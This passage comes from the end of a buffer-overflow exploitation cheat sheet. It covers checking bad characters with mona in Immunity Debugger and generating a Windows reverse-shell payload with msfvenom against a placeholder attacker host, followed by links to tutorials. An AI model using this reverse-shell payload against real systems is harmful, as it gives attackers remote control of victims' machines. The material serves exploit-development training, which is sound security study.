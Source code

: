 put your bytearray in the POC e run to get in the immunity the address of the start of the bytearray in the stack (ZZZZZZZZ)

Inside Immunity Debugger
```bash
!mona compare -f c:\logs\appname\bytearray.bin -a ZZZZZZZZ
```
### 8 - Build a Payload (reverseshell)

using the msfvenom to build a payload of the reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp lhost=x.x.x.x lport=xxx -b "\x00\x0a\x0d\x......." -a x86 --platform win -v esp -f python
```

## Also see
{: .-one-column}

* [Build Exploits Exploring Buffer Overflow - Helvio Junior](https://www.helviojunior.com.br/category/it/security/criacao-de-exploits/){:target="_blank"}
* [Video: Understanding Buffer Overflow Concept](https://www.youtube.com/watch?v=wLi-dGphpdg&t=806s){:target="_blank"}
* [Video: How to do a Buffer Overflow](https://www.youtube.com/watch?v=oGZ01rvbfwE&t=6s){:target="_blank"}
